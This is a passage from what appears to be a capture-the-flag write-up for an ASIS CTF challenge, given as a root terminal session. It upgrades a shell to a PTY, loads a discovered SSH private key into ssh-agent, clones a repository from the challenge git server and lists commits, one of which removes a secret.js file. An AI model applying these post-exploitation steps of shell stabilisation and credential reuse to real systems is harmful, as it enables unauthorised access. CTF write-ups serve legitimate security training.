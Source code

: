 In order to spawn a PTY shell and add the key to the agent:
```bash
root@02fc8cadcd26:/tmp# python -c "__import__('pty').spawn('/bin/bash')"

root@02fc8cadcd26:/tmp# stty -raw -echo -brkint rows 80

root@02fc8cadcd26:/tmp# export TERM=screen-256color

root@02fc8cadcd26:~/.ssh# cat config
Host the-git-server
        Hostname the-git-server.asisctf.com
        Port 8022
        User git

root@02fc8cadcd26:/tmp# eval $(ssh-agent -s)
Agent pid 5486

root@02fc8cadcd26:/tmp# ls ~/.ssh
config  id_ed25519  id_ed25519.pub

root@02fc8cadcd26:/tmp# ssh-add ~/.ssh/id_ed25519
Identity added: /root/.ssh/id_ed25519 (root@133981c8b288)

root@02fc8cadcd26:/tmp# git clone git@the-git-server:username/the-real-server.git

root@02fc8cadcd26:/tmp/the-real-server# ls
README.md  app.js  package.json  ping.js  token.js
```

```bash
root@02fc8cadcd26:/tmp/the-real-server# git log --stat
commit fa74c47011dd60115cc49359de248740c115442f (HEAD ->
master, origin/master, origin/HEAD)
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:51 2020 +0000

    Fix port

 app.js | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)

commit 4220825b5538d2afa85f44c0f6dea16970585d43
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:06 2020 +0000

    Fix code

 app.js | 6 ++++++
 1 file changed, 6 insertions(+)

commit 58e9c037f11e8fbe1e04474b61af2ae570b8ab05
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:44:19 2020 +0000

    Update files

 .gitignore | 1 +
 secret.js  | 4 ----
 2 files changed, 1 insertion(+), 4 deletions(-)

commit 4da43efc485e255ef9eb1de0c115d63d58e6d044
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:43:06 2020 +0000

    Add code
```